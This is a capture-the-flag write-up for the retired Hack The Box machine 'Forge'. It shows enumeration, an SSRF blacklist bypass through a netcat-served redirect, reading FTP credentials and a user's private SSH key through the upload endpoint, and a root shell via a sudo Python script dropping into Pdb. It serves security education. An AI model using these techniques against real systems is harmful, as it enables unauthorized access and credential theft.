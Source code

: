 # Forge

This is the write-up for the box Forge that got retired at the 22nd January 2022.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.111    forge.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/forge.nmap 10.10.11.111
```

```
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4f78656629e4876b3cccb43ad25720ac (RSA)
|   256 79df3af1fe874a57b0fd4ed054c628d9 (ECDSA)
|_  256 b05811406d8cbdc572aa8308c551fb33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service forwards to the hostname _forge.htb_ which hosts a website with images and on the top right is a button to upload an image:

![Upload image](forge_web-1.png)

It is possible to upload from an URL and when testing the IP of my local client, it makes a request to it:
```
nc -lvnp 80

Ncat: Connection from 10.10.11.111.
Ncat: Connection from 10.10.11.111:59776.
GET / HTTP/1.1
Host: 10.10.14.12
User-Agent: python-requests/2.25.1
```

Based on the _User-Agent_, the website may be developed with a Python framework like **Django** or **Flask**.

When testing for **Server Side Request Forgery (SSRF)** and browsing to localhost, it says that the URL contains a blacklisted address.

Searching for virtual hosts with **Gobuster**:
```
gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

The subdomain _admin.forge.htb_ exists and when browsing there, it says that only localhost is allowed.
This web service could be enumerated with the upload feature.

By creating a web service that redirects to another location, the blacklist can be bypassed.

Creating a file _(REQUEST)_ with the HTTP header _Location_ and HTTP status code _301 Moved Permanently_ to forward to another location:
```
HTTP/1.1 301 Moved Permanently
Location: http://127.0.0.1:21/
```

Starting a web service on port 80 with `netcat`:
```
nc -lvnp 80 < REQUEST
```

After using our IP on the upload feature, it shows a message from the FTP service, which proofs that internal services can be accessed:
```
Error : ('Connection aborted.', BadStatusLine("220 Forge's internal ftp server\r\n"))
```

Changing the location to _admin.forge.htb_:
```
HTTP/1.1 301 Moved Permanently
Location: http://admin.forge.htb/
```

After sending the request to our web service, a file is successfully uploaded and the HTML source code of the _Admin portal_ can be seen:
```
curl http://forge.htb/uploads/jQyP1hKpntnzoEHI7mI0
```
```html
<title>Admin Portal</title>
<!-- (...) -->
<h1 class=""><a href="/">Portal home</a></h1>
<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
<h1 class="align-right"><a href="/upload">Upload image</a></h1>
```

The location can be changed to the _/announcements_ directory and uploaded again:
```
curl http://forge.htb/uploads/De9mdFb946dnKPytkxXo
```
```html
<!-- (...) -->
<li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
<li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```

It has credentials for the FTP service and tells that the _/upload_ endpoint can use **FTP**.

Changing the location to _/upload_ and using the _"u"_ parameter to access the FTP service with the provided credentials:
```
HTTP/1.1 301 Moved Permanently
Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/
```

It successfully uploads the file and the HTTP response shows the contents of the FTP service:
```
curl http://forge.htb/uploads/EC712RNy4vvMhM0cl1lo
```
```
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Dec 30 16:26 user.txt
```

As the _user.txt_ file is in the FTP service, this is most likely the home directory of the user which may have a _.ssh_ directory:
```
Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/
```
```
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
```

Stealing the private SSH key:
```
Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa
```
```
curl http://forge.htb/uploads/T3XtSx4YQHQGBX7GApDc -o id_rsa
```

As the user for the FTP service is called _"user"_, this should work to login via SSH:
```
ssh -i id_rsa user@10.10.11.111
```

## Privilege Escalation

When checking the root permissions with `sudo -l`, the user can execute a Python script with elevated privileges:
```
User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

The Python script starts a socket on localhost on a random port between 1025 and 65535:
```
sudo /usr/bin/python3 /opt/remote-manage.py

Listening on localhost:25095
```

With a second SSH session, we can connect to the socket with the password in the Python script and it shows four options:
```
nc localhost 25095
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

By sending it anything other than a number, it errors and starts the **Python debugger**:
```
invalid literal for int() with base 10: b'test'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)
```

In **Pdb** it is possible to run any system command:
```
(Pdb) import os
(Pdb) os.system("/bin/bash")
```

After executing `bash`, it will start a shell as root!
